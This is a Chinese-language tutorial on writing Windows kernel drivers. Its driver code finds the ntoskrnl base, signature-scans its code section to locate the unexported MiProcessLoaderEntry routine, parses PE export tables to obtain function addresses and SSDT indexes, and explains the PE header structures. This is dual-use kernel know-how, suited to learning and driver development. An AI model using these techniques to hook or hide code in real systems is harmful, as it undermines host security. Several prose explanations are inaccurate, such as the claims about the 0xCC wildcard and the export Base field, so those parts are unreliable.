如上述所示定位函数我们已经封装好了，相信你也能感受到这种方式要比使用数组更方便，为了能定位到内核PE结构我们需要使用`RtlImageNtHeader`来解析，这个内核函数专门用来得到内核程序的PE头部结构的，在下方案例中首先我们使用封装过的`LySharkToolsUtilKernelBase`函数拿到内核基址，如果你不懂函数实现细节请阅读`《内核取ntoskrnl模块基地址》`这篇文章，拿到基址以后可以直接使用`RtlImageNtHeader`对其PE头部进行解析，如下所示。
```c
#include "lyshark.h"

// 定义全局变量
static PVOID g_KernelBase = 0;
static ULONG g_KernelSize = 0;

// 得到KernelBase基地址
PVOID LySharkToolsUtilKernelBase(OUT PULONG pSize)
{
    NTSTATUS status = STATUS_SUCCESS;
    ULONG bytes = 0;
    PRTL_PROCESS_MODULES pMods = 0;
    PVOID checkPtr = 0;
    UNICODE_STRING routineName;

    if (g_KernelBase != 0)
    {
        if (pSize)
        {
            *pSize = g_KernelSize;
        }
        return g_KernelBase;
    }

    RtlInitUnicodeString(&routineName, L"NtOpenFile");

    checkPtr = MmGetSystemRoutineAddress(&routineName);
    if (checkPtr == 0)
        return 0;

    __try
    {
        status = ZwQuerySystemInformation(SystemModuleInformation, 0, bytes, &bytes);
        if (bytes == 0)
        {
            return 0;
        }

        pMods = (PRTL_PROCESS_MODULES)ExAllocatePoolWithTag(NonPagedPoolNx, bytes, L"LyShark");
        RtlZeroMemory(pMods, bytes);

        status = ZwQuerySystemInformation(SystemModuleInformation, pMods, bytes, &bytes);

        if (NT_SUCCESS(status))
        {
            PRTL_PROCESS_MODULE_INFORMATION pMod = pMods->Modules;

            for (ULONG i = 0; i < pMods->NumberOfModules; i++)
            {
                if (checkPtr >= pMod[i].ImageBase && checkPtr < (PVOID)((PUCHAR)pMod[i].ImageBase + pMod[i].ImageSize))
                {
                    g_KernelBase = pMod[i].ImageBase;
                    g_KernelSize = pMod[i].ImageSize;
                    if (pSize)
                    {
                        *pSize = g_KernelSize;
                    }
                    break;
                }
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return 0;
    }

    if (pMods)
    {
        ExFreePoolWithTag(pMods, L"LyShark");
    }

    DbgPrint("KernelBase = > %p \n", g_KernelBase);
    return g_KernelBase;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    // 获取内核第一个模块的基地址
    PVOID base = LySharkToolsUtilKernelBase(0);
    if (!base)
        return STATUS_NOT_FOUND;

    // 得到NT头部PE32+结构
    PIMAGE_NT_HEADERS64 pHdr = RtlImageNtHeader(base);
    if (!pHdr)
        return STATUS_INVALID_IMAGE_FORMAT;

    // 首先寻找代码段
    PIMAGE_SECTION_HEADER pFirstSection = (PIMAGE_SECTION_HEADER)(pHdr + 1);
    for (PIMAGE_SECTION_HEADER pSection = pFirstSection; pSection < pFirstSection + pHdr->FileHeader.NumberOfSections; pSection++)
    {
        ANSI_STRING LySharkSection, LySharkName;
        RtlInitAnsiString(&LySharkSection, ".text");
        RtlInitAnsiString(&LySharkName, (PCCHAR)pSection->Name);

        DbgPrint("[LyShark.PE] 名字: %Z | 地址: %p | 长度: %d \n", LySharkName, (PUCHAR)base + pSection->VirtualAddress, pSection->Misc.VirtualSize);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行这段驱动程序，你会得到`当前内核`的`所有PE节`信息，枚举效果如下所示。



既然能够得到PE头部数据了，那么我们只需要扫描这段空间并得到匹配到的数据即可，其实很容易实现，如下代码所示。
```c
#include "lyshark.h"

// 定义全局变量
static PVOID g_KernelBase = 0;
static ULONG g_KernelSize = 0;

// 得到KernelBase基地址
PVOID LySharkToolsUtilKernelBase(OUT PULONG pSize)
{
    NTSTATUS status = STATUS_SUCCESS;
    ULONG bytes = 0;
    PRTL_PROCESS_MODULES pMods = 0;
    PVOID checkPtr = 0;
    UNICODE_STRING routineName;

    if (g_KernelBase != 0)
    {
        if (pSize)
        {
            *pSize = g_KernelSize;
        }
        return g_KernelBase;
    }

    RtlInitUnicodeString(&routineName, L"NtOpenFile");

    checkPtr = MmGetSystemRoutineAddress(&routineName);
    if (checkPtr == 0)
        return 0;

    __try
    {
        status = ZwQuerySystemInformation(SystemModuleInformation, 0, bytes, &bytes);
        if (bytes == 0)
        {
            return 0;
        }

        pMods = (PRTL_PROCESS_MODULES)ExAllocatePoolWithTag(NonPagedPoolNx, bytes, L"LyShark");
        RtlZeroMemory(pMods, bytes);

        status = ZwQuerySystemInformation(SystemModuleInformation, pMods, bytes, &bytes);

        if (NT_SUCCESS(status))
        {
            PRTL_PROCESS_MODULE_INFORMATION pMod = pMods->Modules;

            for (ULONG i = 0; i < pMods->NumberOfModules; i++)
            {
                if (checkPtr >= pMod[i].ImageBase && checkPtr < (PVOID)((PUCHAR)pMod[i].ImageBase + pMod[i].ImageSize))
                {
                    g_KernelBase = pMod[i].ImageBase;
                    g_KernelSize = pMod[i].ImageSize;
                    if (pSize)
                    {
                        *pSize = g_KernelSize;
                    }
                    break;
                }
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return 0;
    }

    if (pMods)
    {
        ExFreePoolWithTag(pMods, L"LyShark");
    }

    DbgPrint("KernelBase = > %p \n", g_KernelBase);
    return g_KernelBase;
}

// 对指定内存执行特征码扫描
NTSTATUS UtilLySharkSearchPattern(IN PUCHAR pattern, IN UCHAR wildcard, IN ULONG_PTR len, IN const VOID* base, IN ULONG_PTR size, OUT PVOID* ppFound)
{
    NT_ASSERT(ppFound != 0 && pattern != 0 && base != 0);
    if (ppFound == 0 || pattern == 0 || base == 0)
    {
        return STATUS_INVALID_PARAMETER;
    }

    __try
    {
        for (ULONG_PTR i = 0; i < size - len; i++)
        {
            BOOLEAN found = TRUE;
            for (ULONG_PTR j = 0; j < len; j++)
            {
                if (pattern[j] != wildcard && pattern[j] != ((PUCHAR)base)[i + j])
                {
                    found = FALSE;
                    break;
                }
            }

            if (found != FALSE)
            {
                *ppFound = (PUCHAR)base + i;
                DbgPrint("[LyShark] 特征码匹配地址: %p \n", (PUCHAR)base + i);
                return STATUS_SUCCESS;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return STATUS_UNHANDLED_EXCEPTION;
    }

    return STATUS_NOT_FOUND;
}

// 扫描代码段中的指令片段
NTSTATUS ByLySharkComUtilScanSection(IN PCCHAR section, IN PUCHAR pattern, IN UCHAR wildcard, IN ULONG_PTR len, OUT PVOID* ppFound)
{
    NT_ASSERT(ppFound != 0);
    if (ppFound == 0)
        return STATUS_INVALID_PARAMETER;

    // 获取内核第一个模块的基地址
    PVOID base = LySharkToolsUtilKernelBase(0);
    if (!base)
        return STATUS_NOT_FOUND;

    // 得到NT头部PE32+结构
    PIMAGE_NT_HEADERS64 pHdr = RtlImageNtHeader(base);
    if (!pHdr)
        return STATUS_INVALID_IMAGE_FORMAT;

    // 首先寻找代码段
    PIMAGE_SECTION_HEADER pFirstSection = (PIMAGE_SECTION_HEADER)(pHdr + 1);
    for (PIMAGE_SECTION_HEADER pSection = pFirstSection; pSection < pFirstSection + pHdr->FileHeader.NumberOfSections; pSection++)
    {
        ANSI_STRING LySharkSection, LySharkText;
        RtlInitAnsiString(&LySharkSection, section);
        RtlInitAnsiString(&LySharkText, (PCCHAR)pSection->Name);

        // 判断是不是我们要找的.text节
        if (RtlCompareString(&LySharkSection, &LySharkText, TRUE) == 0)
        {
            // 如果是则开始匹配特征码
            return UtilLySharkSearchPattern(pattern, wildcard, len, (PUCHAR)base + pSection->VirtualAddress, pSection->Misc.VirtualSize, ppFound);
        }
    }

    return STATUS_NOT_FOUND;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PMiProcessLoaderEntry m_MiProcessLoaderEntry = NULL;
    RTL_OSVERSIONINFOW Version = { 0 };

    Version.dwOSVersionInfoSize = sizeof(Version);
    RtlGetVersion(&Version);

    //获取内核版本号
    DbgPrint("主版本: %d -->次版本: %d --> 编译版本: %d", Version.dwMajorVersion, Version.dwMinorVersion, Version.dwBuildNumber);

    if (Version.dwMajorVersion == 10)
    {
        // 如果是 win10 18363 则匹配特征
        if (Version.dwBuildNumber == 18363)
        {
            CHAR pattern[] = "\x48\x89\x5c\x24\x08";
            int pattern_size = sizeof(pattern) - 1;

            ByLySharkComUtilScanSection(".text", (PUCHAR)pattern, 0xCC, pattern_size, (PVOID *)&m_MiProcessLoaderEntry);
            DbgPrint("[LyShark] 输出首地址: %p", m_MiProcessLoaderEntry);
        }
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
代码中首先判断系统主版本`windows 10 18363`如果是则执行匹配，只匹配`.text`也就是代码段中的数据，当遇到`0xcc`时则取消继续，否则继续执行枚举，程序输出效果如下所示。



在WinDBG中输入命令`!dh 0xfffff8007f600000`解析出内核PE头数据，可以看到如下所示，对比无误。



### 9.2 内核解析PE结构导出表

在笔者的上一篇文章`《内核特征码扫描PE代码段》`中`LyShark`带大家通过封装好的`LySharkToolsUtilKernelBase`函数实现了动态获取内核模块基址，并通过`ntimage.h`头文件中提供的系列函数解析了指定内核模块的`PE节表`参数，本章将继续延申这个话题，实现对PE文件导出表的解析任务，导出表无法动态获取，解析导出表则必须读入内核模块到内存才可继续解析，所以我们需要分两步走，首先读入内核磁盘文件到内存，然后再通过`ntimage.h`中的系列函数解析即可。

PE结构（Portable Executable Structure）是Windows操作系统用于执行可执行文件和动态链接库（DLL）的标准格式。导出表（Export Table）是PE结构中的一个部分，它记录了一个DLL中所有可供外部调用的函数和变量。

导出表通常位于PE结构的数据目录中。它包含两个重要的表格：导出名称表格和导出地址表格。导出名称表格列出了DLL中所有导出函数和变量的名称，而导出地址表格列出了这些函数和变量的内存地址。

当PE文件执行时Windows装载器将文件装入内存并将导入表中登记的DLL文件一并装入，再根据DLL文件中函数的导出信息对可执行文件的导入表(IAT)进行修正。导出函数在DLL文件中，导出信息被保存在导出表，导出表就是记载着动态链接库的一些导出信息。通过导出表，DLL文件可以向系统提供导出函数的名称、序号和入口地址等信息，以便Windows装载器能够通过这些信息来完成动态链接的整个过程。

导出函数存储在PE文件的导出表里，导出表的位置存放在PE文件头中的数据目录表中，与导出表对应的项目是数据目录中的首个`IMAGE_DATA_DIRECTORY`结构，从这个结构的`VirtualAddress`字段得到的就是导出表的RVA值，导出表同样可以使用函数名或序号这两种方法导出函数。

导出表的起始位置有一个`IMAGE_EXPORT_DIRECTORY`结构，与导入表中有多个`IMAGE_IMPORT_DESCRIPTOR`结构不同，导出表只有一个`IMAGE_EXPORT_DIRECTORY`结构，该结构定义如下：
```c
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD   Characteristics;
    DWORD   TimeDateStamp;        // 文件的产生时刻
    WORD    MajorVersion;
    WORD    MinorVersion;
    DWORD   Name;                  // 指向文件名的RVA
    DWORD   Base;                  // 导出函数的起始序号
    DWORD   NumberOfFunctions;     // 导出函数总数
    DWORD   NumberOfNames;         // 以名称导出函数的总数
    DWORD   AddressOfFunctions;    // 导出函数地址表的RVA
    DWORD   AddressOfNames;        // 函数名称地址表的RVA
    DWORD   AddressOfNameOrdinals; // 函数名序号表的RVA
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

其中，Name字段指向了该DLL的名称字符串，Base字段为该DLL的加载基地址，`NumberOfFunctions`和`NumberOfNames`分别表示导出函数和变量的数量，`AddressOfFunctions、AddressOfNames`和`AddressOfNameOrdinals`则是三个表格的地址。

总的来说，导出表是DLL中非常重要的一个部分，它提供了一种方便的方法，使其他程序可以调用DLL中的函数和变量。

上面的`_IMAGE_EXPORT_DIRECTORY `结构如果总结成一张图，如下所示：


在上图中最左侧`AddressOfNames`结构成员指向了一个数组，数组里保存着一组RVA，每个RVA指向一个字符串即导出的函数名，与这个函数名对应的是`AddressOfNameOrdinals`中的结构成员，该对应项存储的正是函数的唯一编号并与`AddressOfFunctions`结构成员相关联，形成了一个导出链式结构体。

获取导出函数地址时，先在`AddressOfNames`中找到对应的名字`MyFunc1`，该函数在`AddressOfNames`中是第1项，然后从`AddressOfNameOrdinals`中取出第1项的值这里是1，然后就可以通过导出函数的序号`AddressOfFunctions[1]`取出函数的入口RVA，然后通过RVA加上模块基址便是第一个导出函数的地址，向后每次相加导出函数偏移即可依次遍历出所有的导出函数地址。

其解析过程与应用层基本保持一致，如果不懂应用层如何解析也可以去看我以前写过的`《PE格式：手写PE结构解析工具》`里面具体详细的分析了解析流程。

首先使用`InitializeObjectAttributes()`打开文件，打开后可获取到该文件的句柄，`InitializeObjectAttributes`宏初始化一个`OBJECT_ATTRIBUTES`结构体, 当一个例程打开对象时由此结构体指定目标对象的属性，此函数的微软定义如下；
```c
VOID InitializeObjectAttributes(
  [out]          POBJECT_ATTRIBUTES   p,      // 权限
  [in]           PUNICODE_STRING      n,      // 文件名
  [in]           ULONG                a,      // 输出文件
  [in]           HANDLE               r,      // 权限
  [in, optional] PSECURITY_DESCRIPTOR s       // 0
);
```
当权限句柄被初始化后则即调用`ZwOpenFile()`打开一个文件使用权限`FILE_SHARE_READ`打开，打开文件函数微软定义如下；
```c
NTSYSAPI NTSTATUS ZwOpenFile(
  [out] PHANDLE            FileHandle,         // 返回打开文件的句柄
  [in]  ACCESS_MASK        DesiredAccess,      // 打开的权限，一般设为GENERIC_ALL。
  [in]  POBJECT_ATTRIBUTES ObjectAttributes,   // OBJECT_ATTRIBUTES结构
  [out] PIO_STATUS_BLOCK   IoStatusBlock,      // 指向一个结构体的指针。该结构体指明打开文件的状态。
  [in]  ULONG              ShareAccess,        // 共享的权限。可以是FILE_SHARE_READ 或者 FILE_SHARE_WRITE。
  [in]  ULONG              OpenOptions         // 打开选项，一般设为 FILE_SYNCHRONOUS_IO_NONALERT。
);
```
接着文件被打开后，我们还需要调用`ZwCreateSection()`该函数的作用是创建一个`Section`节对象，并以PE结构中的`SectionALignment`大小对齐映射文件，其微软定义如下；
```c
NTSYSAPI NTSTATUS ZwCreateSection(
  [out]          PHANDLE            SectionHandle,            // 指向 HANDLE 变量的指针，该变量接收 section 对象的句柄。
  [in]           ACCESS_MASK        DesiredAccess,            // 指定一个 ACCESS_MASK 值，该值确定对 对象的请求访问权限。
  [in, optional] POBJECT_ATTRIBUTES ObjectAttributes,         // 指向 OBJECT_ATTRIBUTES 结构的指针，该结构指定对象名称和其他属性。
  [in, optional] PLARGE_INTEGER     MaximumSize,              // 指定节的最大大小（以字节为单位）。
  [in]           ULONG              SectionPageProtection,    // 指定要在 节中的每个页面上放置的保护。 
  [in]           ULONG              AllocationAttributes,     // 指定确定节的分配属性的SEC_XXX 标志的位掩码。 
  [in, optional] HANDLE             FileHandle                // （可选）指定打开的文件对象的句柄。
);
```
最后读取导出表就要将一个磁盘中的文件映射到内存中，内存映射核心文件时`ZwMapViewOfSection()`该系列函数在应用层名叫`MapViewOfSection()`只是一个是内核层一个应用层，这两个函数参数传递基本一致，以`ZwMapViewOfSection`为例，其微软定义如下；
```c
NTSYSAPI NTSTATUS ZwMapViewOfSection(
  [in]                HANDLE          SectionHandle,          // 接收一个节对象
  [in]                HANDLE          ProcessHandle,          // 进程句柄,此处使用NtCurrentProcess()获取自身句柄
  [in, out]           PVOID           *BaseAddress,           // 指定填充地址
  [in]                ULONG_PTR       ZeroBits,               // 0
  [in]                SIZE_T          CommitSize,             // 每次提交大小 1024
  [in, out, optional] PLARGE_INTEGER  SectionOffset,          // 0
  [in, out]           PSIZE_T         ViewSize,               // 浏览大小
  [in]                SECTION_INHERIT InheritDisposition,     // ViewShare
  [in]                ULONG           AllocationType,         // 分配类型 MEM_TOP_DOWN
  [in]                ULONG           Win32Protect            // 权限 PAGE_READWRITE(读写)
);
```
将如上函数研究明白那么代码就变得很容易了，首先`InitializeObjectAttributes`设置文件权限与属性，然后调用`ZwOpenFile`打开文件，接着调用`ZwCreateSection`创建节对象，最后调用`ZwMapViewOfSection`将磁盘文件映射到内存，这段代码实现起来很简单，完整案例如下所示；
```c
#include <ntifs.h>
#include <ntimage.h>
#include <ntstrsafe.h>

// 内存映射文件
NTSTATUS KernelMapFile(UNICODE_STRING FileName, HANDLE *phFile, HANDLE *phSection, PVOID *ppBaseAddress)
{
    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    OBJECT_ATTRIBUTES objectAttr = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    PVOID pBaseAddress = NULL;
    SIZE_T viewSize = 0;

    // 设置文件权限
    InitializeObjectAttributes(&objectAttr, &FileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件
    status = ZwOpenFile(&hFile, GENERIC_READ, &objectAttr, &iosb, FILE_SHARE_READ, FILE_SYNCHRONOUS_IO_NONALERT);
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    // 创建节对象
    status = ZwCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE, NULL, 0, PAGE_READWRITE, 0x1000000, hFile);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hFile);
        return status;
    }
    // 映射到内存
    status = ZwMapViewOfSection(hSection, NtCurrentProcess(), &pBaseAddress, 0, 1024, 0, &viewSize, ViewShare, MEM_TOP_DOWN, PAGE_READWRITE);
    if (!NT_SUCCESS(status))
    {
        ZwClose(hSection);
        ZwClose(hFile);
        return status;
    }

    // 返回数据
    *phFile = hFile;
    *phSection = hSection;
    *ppBaseAddress = pBaseAddress;

    return status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;

    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = {0};

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntoskrnl.exe");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (NT_SUCCESS(status))
    {
        DbgPrint("读取内存地址 = %p \n", pBaseAddress);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行这段程序，即可读取到`ntoskrnl.exe`磁盘所在文件的内存映像基地址，效果如下所示；



如上代码读入了`ntoskrnl.exe`文件，接下来就是解析导出表，首先将`pBaseAddress`解析为`PIMAGE_DOS_HEADER`获取DOS头，并在DOS头中寻找`PIMAGE_NT_HEADERS`头，接着在`NTHeader`头中得到数据目录表，此处指向的就是导出表`PIMAGE_EXPORT_DIRECTORY`通过`pExportTable->NumberOfNames`可得到导出表的数量，通过`(PUCHAR)pDosHeader + pExportTable->AddressOfNames`得到导出表的地址，依次循环读取即可得到完整的导出表。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };
    LONG FunctionIndex = 0;

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntoskrnl.exe");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (NT_SUCCESS(status))
    {
        DbgPrint("[LyShark] 读取内存地址 = %p \n", pBaseAddress);
    }

    // Dos 头
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;

    // NT 头
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);

    // 导出表
    PIMAGE_EXPORT_DIRECTORY pExportTable = (PIMAGE_EXPORT_DIRECTORY)((PUCHAR)pDosHeader + pNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);

    // 有名称的导出函数个数
    ULONG ulNumberOfNames = pExportTable->NumberOfNames;
    DbgPrint("[LyShark.com] 导出函数个数: %d \n\n", ulNumberOfNames);

    // 导出函数名称地址表
    PULONG lpNameArray = (PULONG)((PUCHAR)pDosHeader + pExportTable->AddressOfNames);
    PCHAR lpName = NULL;

    // 开始遍历导出表(输出ulNumberOfNames导出函数)
    for (ULONG i = 0; i < ulNumberOfNames; i++)
    {
        lpName = (PCHAR)((PUCHAR)pDosHeader + lpNameArray[i]);

        // 获取导出函数地址
        USHORT uHint = *(USHORT *)((PUCHAR)pDosHeader + pExportTable->AddressOfNameOrdinals + 2 * i);
        ULONG ulFuncAddr = *(PULONG)((PUCHAR)pDosHeader + pExportTable->AddressOfFunctions + 4 * uHint);
        PVOID lpFuncAddr = (PVOID)((PUCHAR)pDosHeader + ulFuncAddr);

        // 获取SSDT函数Index
        FunctionIndex = *(ULONG *)((PUCHAR)lpFuncAddr + 4);

        DbgPrint("序号: [ %d ] | Hint: %d | 地址: %p | 函数名: %s \n", i, uHint, lpFuncAddr, lpName);
    }

    // 释放指针
    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
代码运行后即可获取到当前`ntoskrnl.exe`程序中的所有导出函数，输出效果如下所示；

 - SSDT表通常会解析`\\??\\C:\\Windows\\System32\\ntoskrnl.exe`
 - SSSDT表通常会解析`\\??\\C:\\Windows\\System32\\win32k.sys`



根据上方的函数流程将其封装为`GetAddressFromFunction()`用户传入`DllFileName`指定的PE文件，以及需要读取的`pszFunctionName`函数名，即可输出该函数的导出地址。
```c
// 寻找指定函数得到内存地址
ULONG64 GetAddressFromFunction(UNICODE_STRING DllFileName, PCHAR pszFunctionName)
{
    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;

    // 内存映射文件
    status = KernelMapFile(DllFileName, &hFile, &hSection, &pBaseAddress);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_EXPORT_DIRECTORY pExportTable = (PIMAGE_EXPORT_DIRECTORY)((PUCHAR)pDosHeader + pNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);
    ULONG ulNumberOfNames = pExportTable->NumberOfNames;
    PULONG lpNameArray = (PULONG)((PUCHAR)pDosHeader + pExportTable->AddressOfNames);
    PCHAR lpName = NULL;

    for (ULONG i = 0; i < ulNumberOfNames; i++)
    {
        lpName = (PCHAR)((PUCHAR)pDosHeader + lpNameArray[i]);
        USHORT uHint = *(USHORT *)((PUCHAR)pDosHeader + pExportTable->AddressOfNameOrdinals + 2 * i);
        ULONG ulFuncAddr = *(PULONG)((PUCHAR)pDosHeader + pExportTable->AddressOfFunctions + 4 * uHint);
        PVOID lpFuncAddr = (PVOID)((PUCHAR)pDosHeader + ulFuncAddr);

        if (_strnicmp(pszFunctionName, lpName, strlen(pszFunctionName)) == 0)
        {
            ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
            ZwClose(hSection);
            ZwClose(hFile);

            return (ULONG64)lpFuncAddr;
        }
    }
    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);
    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    UNICODE_STRING FileName = { 0 };
    ULONG64 FunctionAddress = 0;

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntdll.dll");

    // 取函数内存地址
    FunctionAddress = GetAddressFromFunction(FileName, "ZwQueryVirtualMemory");
    DbgPrint("ZwQueryVirtualMemory内存地址 = %p \n", FunctionAddress);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

如上程序所示，当运行后即可获取到`ntdll.dll`模块内`ZwQueryVirtualMemory`的导出地址，输出效果如下所示；



### 9.3 内核解析PE结构节表

在笔者上一篇文章`《内核解析PE结构导出表》`介绍了如何解析内存导出表结构，本章将继续延申实现解析PE结构的PE头，PE节表等数据，总体而言内核中解析PE结构与应用层没什么不同，在上一篇文章中`LyShark`封装实现了`KernelMapFile()`内存映射函数，在之后的章节中这个函数会被多次用到，为了减少代码冗余，后期文章只列出重要部分，读者可以自行去前面的文章中寻找特定的片段。

PE结构（Portable Executable Structure）是Windows操作系统用于执行可执行文件和动态链接库（DLL）的标准格式。节表（Section Table）是PE结构中的一个部分，它记录了可执行文件或DLL中每个区域的详细信息，例如代码、数据、资源等。

Windows NT 系统中可执行文件使用微软设计的新的文件格式，PE文件的基本结构如下图所示：



在PE文件中,代码,已初始化的数据,资源和重定位信息等数据被按照属性分类放到不同的`Section(节区/或简称为节)`中,而每个节区的属性和位置等信息用一个`IMAGE_SECTION_HEADER`结构来描述,所有的`IMAGE_SECTION_HEADER`结构组成了一个节表`(Section Table)`,节表数据在PE文件中被放在所有节数据的前面.

上面PE结构图中可知PE文件的开头部分包括了一个标准的DOS可执行文件结构，这看上去有些奇怪，但是这对于可执行程序的向下兼容性来说却是不可缺少的，当然现在已经基本不会出现纯DOS程序了，现在来说这个`IMAGE_DOS_HEADER`结构纯粹是历史遗留问题。

#### 9.1.1 DOS头结构解析

PE文件中的DOS部分由MZ格式的文件头和可执行代码部分组成，可执行代码被称为`DOS块(DOS stub)`，MZ格式的文件头由`IMAGE_DOS_HEADER`结构定义，在C语言头文件`winnt.h`中有对这个DOS结构详细定义,如下所示：
```c
typedef struct _IMAGE_DOS_HEADER { 
    WORD   e_magic;                     // DOS的头部
    WORD   e_cblp;                      // Bytes on last page of file
    WORD   e_cp;                        // Pages in file
    WORD   e_crlc;                      // Relocations
    WORD   e_cparhdr;                   // Size of header in paragraphs
    WORD   e_minalloc;                  // Minimum extra paragraphs needed
    WORD   e_maxalloc;                  // Maximum extra paragraphs needed
    WORD   e_ss;                        // Initial (relative) SS value
    WORD   e_sp;                        // Initial SP value
    WORD   e_csum;                      // Checksum
    WORD   e_ip;                        // Initial IP value
    WORD   e_cs;                        // Initial (relative) CS value
    WORD   e_lfarlc;                    // File address of relocation table
    WORD   e_ovno;                      // Overlay number
    WORD   e_res[4];                    // Reserved words
    WORD   e_oemid;                     // OEM identifier (for e_oeminfo)
    WORD   e_oeminfo;                   // OEM information; e_oemid specific
    WORD   e_res2[10];                  // Reserved words
    LONG   e_lfanew;                    // 指向了PE文件的开头(重要)
  } IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
```
在DOS文件头中，第一个字段`e_magic`被定义为`MZ`,标志着DOS文件的开头部分,最后一个字段`e_lfanew`则指明了PE文件的开头位置，现在来说除了第一个字段和最后一个字段有些用处，其他字段几乎已经废弃了，这里附上读取DOS头的代码。
```c
void DisplayDOSHeadInfo(HANDLE ImageBase)
{
    PIMAGE_DOS_HEADER pDosHead = NULL;
    pDosHead = (PIMAGE_DOS_HEADER)ImageBase;

    printf("DOS头：        %x\n", pDosHead->e_magic);
    printf("文件地址：     %x\n", pDosHead->e_lfarlc);
    printf("PE结构偏移：   %x\n", pDosHead->e_lfanew);
}
```

#### 9.1.2 PE头结构解析

从DOS文件头的`e_lfanew`字段向下偏移`003CH`的位置，就是真正的PE文件头的位置，该文件头是由`IMAGE_NT_HEADERS`结构定义的，定义结构如下：
```c
typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;                   // PE文件标识字符
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```
如上PE文件头的第一个DWORD是一个标志，默认情况下它被定义为00004550h也就是`P,E`两个字符另外加上两个零，而大部分的文件属性由标志后面的`IMAGE_FILE_HEADER`和`IMAGE_OPTIONAL_HEADER32`结构来定义，我们继续跟进`IMAGE_FILE_HEADER`这个结构：
```c
typedef struct _IMAGE_FILE_HEADER {
    WORD    Machine;                  // 运行平台
    WORD    NumberOfSections;         // 文件的节数目
    DWORD   TimeDateStamp;            // 文件创建日期和时间
    DWORD   PointerToSymbolTable;     // 指向符号表(用于调试)
    DWORD   NumberOfSymbols;          // 符号表中的符号数量
    WORD    SizeOfOptionalHeader;     // IMAGE_OPTIONAL_HANDLER32结构的长度
    WORD    Characteristics;          // 文件的属性 exe=010fh dll=210eh
} IMAGE_FILE_HEADER, *PIMAGE_FILE_HEADER;
```
继续跟进 `IMAGE_OPTIONAL_HEADER32` 结构，该结构体中的数据就丰富了，重要的结构说明经备注好了：
```c
typedef struct _IMAGE_OPTIONAL_HEADER {
    WORD    Magic;
    BYTE    MajorLinkerVersion;           // 连接器版本
    BYTE    MinorLinkerVersion;
    DWORD   SizeOfCode;                   // 所有包含代码节的总大小
    DWORD   SizeOfInitializedData;        // 所有已初始化数据的节总大小
